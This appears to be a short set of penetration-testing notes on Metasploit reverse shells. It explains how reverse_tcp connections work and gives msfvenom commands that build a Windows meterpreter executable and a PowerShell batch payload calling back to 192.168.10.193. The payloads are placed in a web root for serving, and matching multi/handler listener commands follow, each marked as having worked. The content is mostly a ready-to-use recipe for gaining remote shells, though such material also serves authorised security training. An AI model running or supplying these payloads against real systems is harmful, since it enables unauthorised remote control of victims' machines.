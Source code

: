 
```
exploit
```







### 2. Reverse Shell (`reverse_tcp`)

The target machine initiates a connection back to the attacker’s machine, where the attacker is running a listener. The attacker sets up a listener (e.g., using Netcat or Metasploit). The target machine connects to the attacker’s machine and sends a shell back. Often bypasses firewalls and NAT, as outgoing connections are typically allowed. Harder to detect and block compared to bind shells. Requires the attacker to have a publicly accessible IP or port-forwarding configured.


```
msfconsole
```


#### For Windows: [worked]

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.193 lport=5555 -f exe > /var/www/html/reverse_tcp.exe
```


```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

set lhost 192.168.10.193
set lport 5555

show options

exploit -j
```



#### For Powershell: [worked]


```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.10.193 lport=4444 -f raw > /var/www/html/shell_file.bat
```



```
use multi/handler
set payload cmd/windows/reverse_powershell

set lhost 192.168.10.193
set lport 4444

run
```
